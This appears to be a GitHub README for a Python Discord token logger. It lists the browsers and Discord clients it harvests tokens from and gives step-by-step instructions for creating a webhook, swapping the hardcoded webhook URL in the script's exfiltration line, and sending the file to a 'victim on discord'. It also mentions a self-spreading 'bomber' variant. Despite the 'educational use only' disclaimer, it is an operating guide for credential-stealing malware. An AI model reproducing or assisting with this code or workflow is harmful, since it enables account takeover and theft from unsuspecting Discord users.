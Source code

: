 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

feel free to run this on your computer to test it out as it will cause no damage and just send your info to your server as aposed to the bomber witch will nuke your discord and send itself to everyone on your friends list

This python script when you run it will token log the person 

information it reurns: ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server 

 ![Screenshot 2021-05-09 150939](https://user-images.githubusercontent.com/83868916/117561272-a3a73180-b0d8-11eb-8ff1-bd4e4e4584e8.png)

2. add a webhook ![Screenshot 2021-05-09 150105](https://user-images.githubusercontent.com/83868916/117561184-d270d800-b0d7-11eb-9432-49ec9ff63840.png)

3. copy webhook url ![Screenshot 2021-05-09 150143](https://user-images.githubusercontent.com/83868916/117561189-d69cf580-b0d7-11eb-8473-9b7f8d902403.png)

4. open the token_logger.py in IDLE or another python editor ![Screenshot 2021-05-09 150211](https://user-images.githubusercontent.com/83868916/117561191-d7ce2280-b0d7-11eb-9978-ee33c259c576.png)

5. scroll down to the last line before the blank (big gap in code) near the bottom 
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE", data=dumps(webhook).encode(), headers=getheaders())) ![Screenshot 2021-05-09 150239](https://user-images.githubusercontent.com/83868916/117561194-d997e600-b0d7-11eb-8225-0bb6d77fa324.png)
6. change the "https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE" to your webhook url ![Screenshot 2021-05-09 150300](https://user-images.githubusercontent.com/83868916/117561195-dac91300-b0d7-11eb-9494-a55d8f6e5276.png)

7. save the file ![Screenshot 2021-05-09 151713](https://user-images.githubusercontent.com/83868916/117561385-b2421880-b0d9-11eb-98c4-00c3641d6ba6.png)

8. send to victim on discord ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**

**feel free to ask any questions or report any issues in the issues tab**
